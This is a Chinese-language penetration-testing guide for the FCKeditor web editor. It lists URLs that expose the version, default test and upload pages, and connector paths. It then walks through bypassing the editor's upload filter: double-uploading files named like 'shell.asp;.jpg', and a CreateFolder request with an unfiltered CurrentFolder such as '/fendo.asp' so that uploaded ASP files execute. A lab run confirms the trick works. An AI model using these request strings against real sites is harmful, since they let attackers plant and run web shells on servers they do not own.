




# FCKeditor编辑器渗透思路

### 1.查看FCKeditor版本

```
http://127.0.0.1/fckeditor/editor/dialog/fck_about.html
http://127.0.0.1/FCKeditor/_whatsnew.html
```

### 2.一些FCK默认链接(以asp为例)：

```html
上传测试页面：Fckeditor编辑器默认会存在test.html和uploadtest.html文件，直接访问这些文件可以获取当前文件夹文件名称以及上传文件，有的版本可以直接上传任意文件类型，测试上传地址有：
FCKeditor/editor/filemanager/browser/default/connectors/test.html
FCKeditor/editor/filemanager/upload/test.html
FCKeditor/editor/filemanager/connectors/test.html
FCKeditor/editor/filemanager/connectors/uploadtest.html

示例页面：
FCKeditor/_samples/default.html
FCKeditor/_samples/asp/sample01.asp
FCKeditor/_samples/asp/sample02.asp
FCKeditor/_samples/asp/sample03.asp
FCKeditor/_samples/asp/sample04.asp

连接器：
FCKeditor/editor/filemanager/connectors/asp/connector.asp
FCKeditor/editor/filemanager/connectors/aspx/connector.aspx

创建文件夹链接：
FCKeditor/editor/filemanager/connectors/asp/connector.asp?Command=CreateFolder&Type=Image&CurrentFolder=/&NewFolderName=test

上传页面：
Fckeditor/editor/filemanager/browser/default/browser.html?Type=file&Connector=connectors/asp/connector.Asp
Fckeditor/editor/filemanager/browser/default/browser.html?Type=Image&Connector=connectors/asp/connector.asp
FCKeditor/editor/filemanager/browser/default/browser.html?Type=all&Connector=connectors/asp/connector.asp
FCKeditor/editor/filemanager/browser/default/browser.html?Type=/&Connector=connectors/asp/connector.asp
FCKeditor/editor/filemanager/browser/default/browser.html?Type=monyer&Connector=connectors/asp/connector.asp

有时候，网站管理员会把上传页面禁止创建文件夹和上传文件，但是由于网站管理员的配置不当，我们的连接器写绝对路径的话，有时候可以创建文件夹和上传文件
Fckeditor/editor/filemanager/browser/default/browser.html?Type=file&Connector=http://ww.xxx.com/connectors/asp/connector.Asp
Fckeditor/editor/filemanager/browser/default/browser.html?Type=Image&Connector=http://ww.xxx.com/connectors/asp/connector.asp
Fckeditor/editor/filemanager/browser/default/browser.html?Type=Flash&Connector=http://ww.xxx.com/connectors/asp/connector.asp
```

### 3.上传绕过

检测文件名中的‘.’修改为‘_’，绕过方式：

1.在上传了诸如*shell.asp;.jpg*的文件后，会自动将文件名改为*shell_asp;.jpg*。可以继续上传同名文件，文件名会变为*shell.asp;(1).jpg*

2.配合web服务器解析漏洞等文件上传漏洞

3.突破建立文件夹：

FCKeditor/editor/filemanager/connectors/asp/connector.asp?Command=CreateFolder&Type=Image&CurrentFolder=/&NewFolderName=test

FCKeditor/editor/filemanager/connectors/asp/connector.asp?Command=CreateFolder&Type=Image&CurrentFolder=/xx.asp&NewFolderName=x.asp

### 


=================================================================================**FCKeditor编辑器**


 

可以去这下载编辑器:http://download.csdn.net/detail/u011781521/9767326
 


 

**1.查看编辑器版本**


 

FCKeditor/_whatsnew.html


 


 


 

**2.FCKeditor编辑器页** 
 
 FCKeditor/_samples/default.html
 


 


 


 

**3.常用上传地址**


 


```html
FCKeditor/editor/filemanager/browser/default/browser.html?type=Image&connector=connectors/asp/connector.asp


FCKeditor/editor/filemanager/browser/default/connectors/asp/connector.asp?Command=GetFoldersAndFiles&Type=Image&CurrentFolder=/


FCKeditor/editor/filemanager/browser/default/browser.html?type=Image&connector=connectors/asp/connector.asp


FCKeditor/editor/filemanager/browser/default/browser.html?Type=Image&Connector=../../connectors/asp/connector.asp
```


 

由于这里用的是2.5的版本所以下面这条语句能用


 


```html
http://192.168.87.129:8234//editor/filemanager/browser/default/browser.html?Type=Image&Connector=../../connectors/asp/connector.asp
```


 

如果在输入以上地址测试的过程中弹出以下的提示


 





 

那就是没有开启文件上传功能,要把\editor\filemanager\connectors\asp\config.asp文件中的


 

Dim ConfigIsEnabled
 ConfigIsEnabled = False
 


 

设置成功true。就行了，然后上传6.asp;.jpg文件试试


 


 


 

发现他进行了过滤6.asp;.jpg改成了6_asp;.jpg,把点改成了下划线。审查元素看下图片的路径


 


 


 


 

访问这个路径看下。


 


 


 

asp文件并没有被解析成功。


 

这就是fckeditor过滤"."为"_"的一个机制,想要突破的话有以下两种方式：


 

**1.二次上传**


 

第一次上传：qq.asp;.jpg ==》qq_asp;.jpg

第二次上传：qq.asp;.jpg ==》qq_asp;.jpg (不满足命名要求)

可能出现第二次命名为 qq.asp;.(1).jpg


 




 

还是被过滤了。。
 


 


 

**2.新建上传**


 

手动新建一个文件夹


 


 


 

发现他还是过滤了。那我们只有突破建立文件夹了。
 


 

执行以下地址就能成功创建文件夹


 


```html
/editor/filemanager/connectors/asp/connector.asp?Command=CreateFolder&Type=Image&CurrentFolder=/fendo.asp&NewFolderName=x.asp
```


 


 

这又是为什么了????手动不能创建，而通过以上地址就能成功创建了，让我们来对比下，手动创建和通过以上地址创建的一个区别。
 


 


漏洞地址：

/editor/filemanager/connectors/asp/connector.asp?Command=CreateFolder&Type=Image&CurrentFolder=/fendo.asp&NewFolderName=x.asp


 

手工新建：

/editor/filemanager/connectors/asp/connector.asp?Command=CreateFolder&Type=Image&CurrentFolder=/&NewFolderName=fendo.asp

 

原因：

CurrentFolder：当前文件夹 未进行过滤(这个文件夹下的没有过滤)

NewFolderName：新建文件名 进行了过滤


 

这就是为什么通过上面地址能创建，而手动却不能创建的一个原因，然后我们再上传6.asp;.jpg到fendo.asp文件下看是否成功解析。


 


 


 

成功解析。。